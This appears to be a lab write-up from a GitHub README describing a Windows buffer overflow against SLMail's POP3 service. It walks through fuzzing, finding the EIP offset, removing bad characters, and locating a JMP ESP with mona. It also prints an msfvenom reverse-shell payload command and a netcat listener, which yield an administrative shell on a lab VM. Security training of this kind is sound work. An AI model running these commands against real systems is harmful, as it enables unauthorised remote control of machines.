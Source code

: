 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

<p align="center">
  <img src="" alt="">
</p>


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

<p align="center">
  <img src="" alt="">
</p>


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

<p align="center">
  <img src="" alt="">
</p>


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

<p align="center">
  <img src="" alt="">
</p>


- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

<p align="center">
  <img src="" alt="">
</p>


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

<p align="center">
  <img src="" alt="">
</p>


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

<p align="center">
  <img src="" alt="">
</p>


- Updated “fuzzy.py” with the target IP address and port, then saved changes.

<p align="center">
  <img src="" alt="">
</p>


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

<p align="center">
  <img src="" alt="">
</p>


- Observed the EIP update to “41414141” in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

<p align="center">
  <img src="" alt="">
</p>


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

<p align="center">
  <img src="" alt="">
</p>


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

<p align="center">
  <img src="" alt="">
</p>


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

<p align="center">
  <img src="" alt="">
</p>


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

<p align="center">
  <img src="" alt="">
</p>


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

<p align="center">
  <img src="" alt="">
</p>


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

<p align="center">
  <img src="" alt="">
</p>


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

<p align="center">
  <img src="" alt="">
</p>

